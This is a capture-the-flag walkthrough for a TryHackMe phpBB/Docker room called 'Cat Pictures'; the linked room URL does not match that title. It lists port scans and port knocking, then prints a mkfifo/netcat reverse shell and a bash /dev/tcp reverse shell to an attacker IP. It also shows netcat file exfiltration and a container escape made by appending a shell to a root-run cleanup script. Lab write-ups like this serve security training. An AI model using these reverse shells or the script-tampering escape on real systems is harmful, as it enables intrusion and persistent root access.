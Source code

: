 ```yaml
---
title: Walkthrough - Cat Pictures
published: true
---
```


Security, PHPbb, Forum, Docker, Port Knocking. A forum where you can post cute cat pictures!

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

```
PORT     STATE    SERVICE     REASON
21/tcp   filtered ftp         port-unreach ttl 61
22/tcp   open     ssh         syn-ack ttl 61
2375/tcp filtered docker      port-unreach ttl 61
4420/tcp open     nvm-express syn-ack ttl 61
8080/tcp open     http-proxy  syn-ack ttl 60   
```

```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
2375/tcp closed docker
4420/tcp open   nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open   http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
```

Visiting the phpbb on port 8080 and checking the version `/styles/prosilver/style.cfg` we can see version 3.3.3 which has no known exploits

- we can find a user `user` and a possible hint on their post

![0xskar](/assets/cat-pictures01.png)

```
POST ALL YOUR CAT PICTURES HERE :)
Knock knock! Magic numbers: 1111, 2222, 3333, 4444
```

- port knocking - let them know we want in `sudo knock '10.10.120.58' 1111 2222 3333 4444`
- and portscan again with nmap to see if they let us in `sudo nmap -sV -sT -sC -O -p21,22,2375,4420,8080 10.10.120.58` and we have open port ftp 21. login and get the note.

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

We can `nc -nv` into the port 4420 and enter the password. maybe possibly get a better shell. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` and we are there. Still super limited to what we can do here, and after looking around a bit nowhere to go other than the runme file. 

We only have limited options and in order to check out the runme file we have to get it over to our machine. We can do this with netcat. `nc -l -p 1234 > runme` on attacker machine and `nc -w 3 'ip' 1234 < runme` on the target inside the home directory.

- `r2 runme` to open runme in radarem, `aaa` to analaze, `s main` to select the main function, and finally `pdf` to display.

Looking at the file it looks like it needs a password and upon success it will send back a SSH key. Going to open in `ghidra` as well to get another look.

![0xskar](/assets/cat-pictures02.png)

Our password for runme is `rebecca` when we enter this the function it creates an ssh key in the user dir.

Using this key we can ssh in as catlover and it turns out to be root!

* * * 

## What is the flag 1?

![0xskar](/assets/cat-pictures03.png)

Turns out this is only root for flag 1. We are stuck in a docker container and must get out for the real root flag.

Inside of the `/opt/clean` directory there is a script that cleans the /tmp/ dir. We can edit this file and add a bash reverse shell at the end of it and setup a listener to get another root shell. `bash -i >& /dev/tcp/'10.2.127.225'/6969 0>&1`

* * * 

## What is the root flag?

![0xskar](/assets/cat-pictures04.png)

* * * 

